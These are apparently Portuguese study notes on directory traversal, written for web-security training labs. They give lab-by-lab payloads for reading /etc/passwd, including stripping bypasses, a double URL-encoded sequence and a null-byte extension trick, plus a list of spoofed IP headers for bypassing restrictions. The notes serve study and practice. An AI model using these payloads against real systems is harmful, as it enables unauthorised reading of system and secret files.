 # Directory Traversal

O scanner do Burp provavelmente vai encontrar essa vulnerabilidade, mas de toda forma ela é facilmente identificada.

Em qualquer lugar que esteja lendo arquivos, tente ler `/etc/passwd` ou `/home/carlos/secret`. Provavelmente algum bypass será necessário.

Dê uma olhada no source code para ver da onde as imagens estão sendo carregadas. Colocar imagens para serem exibidas no Filtro do histórico do Burp também ajuda.

![image](https://github.com/user-attachments/assets/6d15780a-66b2-4e7f-babd-4835b8788c3b)

<br>

## Laboratórios

**File Path Traversal, Traversal Sequences Blocked with Absolute Path Bypass**
```
/image?filename=/etc/passwd
```

<br>
<br>

File Path Traversal, Traversal Sequences Stripped Non-Recursively
```
GET /image?filename=....//....//....//etc//passwd

OU

/image?filename=..././..././..././etc/passwd
```

<br>
<br>

**File Path Traversal, Traversal Sequences Stripped with Superfluous URL-Decode**

Encode o payload em URL duas vezes.
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

<br>
<br>

**File Path Traversal, Validation of Start of Path**

```
/image?filename=/var/www/images/../../../../etc/passwd
```

<br>
<br>

**File Path Traversal, Validation of File Extension with Null Byte Bypass**
```
../../../../../../etc/passwd%00.jpg
```

<br>

### Outros

**Path Traversal Auth**

Adicionar alguns headers na requisição pode ajudar a bypassar restrições em requisições vulneráveis a Directory Traversal.
```
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: localhost
X-Forward-For: localhost
X-Remote-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost
X-Originating-IP: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
```
